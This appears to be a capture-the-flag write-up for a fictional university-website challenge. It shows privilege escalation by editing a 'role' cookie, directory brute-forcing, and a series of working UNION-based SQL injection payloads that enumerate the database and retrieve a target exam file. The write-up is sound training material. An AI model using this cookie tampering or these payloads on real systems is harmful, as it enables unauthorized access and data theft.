








# Find The Account
#### Blind SQLi, cookie manipulation
## Challenge Description:

In the California University of Bio-Medicine, the average final exam grades in the Biochemical 101 course were higher than what the lecturers expected.  
The university's chancellor thought there was something suspicious and asked to check the security cameras to determine if students cheated during the exam.  
The cameras provided no lead and no evidence of cheating was found.  
Unsatisfied with the findings, the chancellor insisted on hiring a security expert to check any other lead, including the possibility of a leak from the university's website. 

#### Your goals
☛ To complete the task, you were provided with the following credentials: Username: TestAccount, Password: 33PTtest12@!  
☛ Review the authorization of the California University of Bio-Medicine website. 
☛ Find a way to escalate privileges and gain administrative access. 
☛ Obtain the leaked exam by exploiting the web application. 

## Process:
When we first open the site, we are already greeted with the first clue, which is "This website uses cookies to ensure you get the best experience on our website"  
 

        <kbd align="center">
          
        </kbd> 

 
Let's login with the credentials we were provided and see where that leads us  
 

        <kbd align="center">
          
        </kbd> 

 
Same site, but now we are logged in. If we check the cookies using the 'cookie editor' extension we can see that we have 'full_name', 'role' and 'token'.  
 

        <kbd align="center">
          
        </kbd> 

 
Since we don't know how to proceed from here, let's run dirbuster on the site and see what we can find. 
 

        <kbd align="center">
          
        </kbd> 

 
We found a directory named 'CMS' which is forbidden to us.
 

        <kbd align="center">
          
        </kbd> 

 

In order to gain access to that section, let's change our cookies. In the 'role' tab, let's change it to 'teacher' and see what that gives us.  
 

        <kbd align="center">
          
        </kbd> 

 
Great success! 
We can see that we can view student names, exam subjects and the teacher schedules.  
No comes the part of the SQLi. Let's start with the basics and see where that takes us.  
bla' OR 1=1 -- -
 

        <kbd align="center">
          
        </kbd> 

 

Now we will start the blind injection and see how it goes. There is no need for me to make a screenshot of every step I made here so I will post the injections themselves and you are more than free to try them yourself 

 
        
The Injections
 
          bla' UNION SELECT 1,schema_name,3,4,5,6,7,8,9,10 FROM information_schema.schemata -- - 
          bla' UNION SELECT 1,table_name,3,4,5,6,7,8,9,10 FROM information_schema.tables WHERE table_schema='CUBM' -- - 
          bla' UNION SELECT 1,column_name,3,4,5,6,7,8,9,10 FROM information_schema.columns WHERE table_name='tests' -- - 
          bla' UNION SELECT 1,link,3,4,5,6,7,8,9,10 FROM CUBM.tests -- - 
    

With the last command, we are presented with a table that has the 'FTA_Exam.pdf' file which is our target, but we can't reach or open it. 
 

        <kbd align="center">
          
        </kbd> 

 
We can retrieve the file by editing the HTML of the page to "fix" the download button, but I find it easier to use the following SQL injection to modify the page:  
bla' UNION SELECT 1,2,3,4,link,6,7,8,9,10 FROM CUBM.tests -- - 
 

        <kbd align="center">
          
        </kbd> 

 
Now all that is left for us to do is download the file, and we will be presented with our flag 🚩

